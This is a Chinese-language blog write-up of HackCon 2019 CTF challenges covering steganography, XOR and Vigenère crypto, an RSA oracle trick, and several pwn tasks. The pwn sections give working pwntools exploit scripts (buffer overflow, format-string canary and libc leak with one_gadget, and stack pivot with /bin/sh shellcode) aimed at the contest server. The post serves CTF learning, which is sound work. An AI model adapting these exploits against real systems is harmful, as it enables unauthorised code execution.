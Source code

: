 ```yaml
---
layout: post
title:  "HackCon 2019-Writeup"
date:   2019-8-23
desc: ""
keywords: ""
categories: [Ctf]
tags: [CTF]
icon: icon-html
---
```


#  HackCon 2019-Writeup

* ### Small icon much wow

  binwalk看一下然后dd分离得到二维码

* ### Too cold for steg 

  文件里找到password，然后

  ```
  stegsnow -C -p "d4rkc0de-IIITD" final.txt
  d4rk{h@ving_fun_w1th_st3gsn0w?}c0de
  ```

* ### Secret Agent

  把User-Agent改成Should d4rkc0de make their own browser

  d4rk{useragent_ftwwwwwww}c0de

  

  wdnmd我以为是User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) d4rkc0de/69.0.3497.100 Safari/537.36

  淦

* ### OTP

  两个密文异或之后得到两个明文异或的结果，根据明文里有"meme"分析

  ```
  c1 = '054617121418010c0b34'
  c2 = '3e1f00140a0807510a0e'
  
  c = '054617121418010c0b343e1f00140a0807510a0e'
  
  
  xor_res = '3b5917061e10065d013a'.decode('hex')
  
  meme = '6d656d65'.decode('hex')
  
  for i in range(7):
  	fuck = ''
  	for j in range(len(xor_res[i:i+4])):
  		fuck += hex(ord(xor_res[i:i+4][j])^ord(meme[j]))[2:].zfill(0)
  	print(fuck.decode('hex'))
  
  
  def xor(a,b):
      assert len(a)==len(b)
      c=""
      for i in range(len(a)):
          c+=chr(ord(a[i])^ord(b[i]))
      return c
  p1 = 'd4rk{meme_'
  print(xor(c1.decode('hex'),p1))
  key = 'areyoudank'
  
  print(xor(key,c1.decode('hex')))
  
  print(xor(key,c2.decode('hex')))
  #d4rk{meme__meme}c0de
  ```

* ### Noki

  ```
   g4iu{ocs_oaeiiamqqi_qk_moam!}e0gi
  ```

  维吉尼亚密码，密钥长度与明文长度相同

  根据d4rk看一波发现密钥和明文相同，然后就是他填字游戏了

  

* ### Ez Pz

  只能完成两次交互，两次加密或两次解密或一次加密一次解密

  解密可以接受除flag密文外任意整数，输入-1试一下，如果e为奇数就可以得到n-1

  得到n-1后一次加密一次解密爆破e

  然后解密`（c*pow（2，e，n））%n`得到2m，除以2得到m

* ### baby b0f

  改栈上的参数

  ```
  from pwn import *
  r = remote('68.183.158.95',8989)
  payload = 'a'*(0xe-4)+p64(0xDEADBEEF)
  r.sendline(payload)
  r.interactive()
  ```

* ### Not So Easy B0f

  格式化字符串泄露canary和main地址

  main地址不变，由于长度限制，再跑一次泄露libcstartmain+231，计算libc基址

  然后跳one_gadget

  ```python
  from pwn import *
  r = remote('68.183.158.95',8991)
  #r = process('./q3')
  elf = ELF('./q3')
  libc = ELF('./libc.so.6')
  
  #%17$llx 400796
  payload = '%11$llx%13$llx'
  r.sendline(payload)
  r.recvuntil('Hello\n')
  fuck = r.recvline().strip()
  print(fuck)
  canary = fuck[0:16]
  lsm = fuck[16:]
  main = '400796'
  log.success(canary)
  log.success(main)
  canary = int(canary,16)
  main = int(main,16)
  lsm = int(lsm,16)-231
  start = main-0x77a
  log.success('canary:'+hex(canary))
  log.success('start:'+hex(start))
  
  log.success('libc_start_main:'+hex(lsm))
  
  puts_plt = start+0x620
  puts_got = start + elf.got['puts']
  puts_libc = libc.symbols['puts']
  
  lsm_libc = libc.symbols['__libc_start_main']
  libc_base = lsm - lsm_libc
  p_rdi = start + 0x893
  one = libc_base + 0x45216
  payload = 'a'*(0x20-0x8)+p64(canary)+'fuckfuck'+p64(one)
  #payload += p64(p_rdi)+p64(puts_got)+p64(puts_plt)
  #payload += p64(main)
  r.sendline(payload)
  #r.recvuntil('Enter sentence :')
  #log.info(hex(u64(r.recvuntil('\n',drop=True).ljust(8,'\x00'))))
  r.interactive()
  ```

* ### 2 small 2 Pwn

  覆盖rbp，栈迁移，然后往data段写shellcode再跳过去

  ```python
  from pwn import *
  r = remote('68.183.158.95',8992)
  context(os='linux', arch='amd64')
  main = 0x4000c7
  payload = 'a'*0x10+p64(0x6000ec+0x10) + p64(main)
  r.sendline(payload)
  sh = asm("""
  mov eax, 59
  mov rdi, 0x60010c
  xor rsi, rsi
  xor rdx,rdx
  syscall
  """)
  payload = sh.ljust(0x18,'\x00')+p64(0x6000EC)+"\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x00"
  r.sendline(payload)
  
  r.interactive()
  
  
  ```

* ### Weird Text

  Malbolge 

  wdnmd我以为是brainfuck

*  ### Invisible programming

  根据空格与制表符跑出来

  ```python
  import re
  h = open('hello_world.cpp')
  lines = [ x[:-1] for x in h.readlines() ]  # remove newline char
  h.close()
  
  flag = []
  for line in lines:
      num =''.join(re.findall(r'\s+', line)).replace('\t','1').replace(' ','0')
      if num:
          try:
              flag.append(chr(int(num,2)))
          except:
              pass
  
  print ''.join(flag)
  ```

